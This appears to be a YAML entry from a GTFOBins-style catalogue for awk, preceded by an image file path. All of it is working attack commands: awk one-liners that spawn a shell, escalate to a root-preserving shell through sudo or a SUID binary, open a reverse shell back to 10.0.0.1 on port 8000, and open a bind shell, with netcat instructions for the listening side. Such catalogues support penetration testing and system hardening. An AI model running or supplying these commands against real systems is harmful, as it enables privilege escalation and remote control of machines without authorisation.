 ```yaml
---
functions:
  exec-interactive:
    - code: awk 'BEGIN {system("/bin/sh")}'
  sudo-enabled:
    - code: sudo awk 'BEGIN {system("/bin/sh -p")}'
  suid-limited:
    - code: ./awk 'BEGIN {system("/bin/sh -p")}'
  reverse-shell:
    - description: Run `nc -l -p 8000` to receive the shell on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {s = "/inet/tcp/0/" RHOST "/" RPORT; while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break; while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  bind-shell:
    - description: Run `nc 10.0.0.1 8000` to connect to the shell on the other end.
      code: |
        LPORT=8000
        awk -v LPORT=$LPORT 'BEGIN {s = "/inet/tcp/" LPORT "/0/0"; while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break; while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
---
```

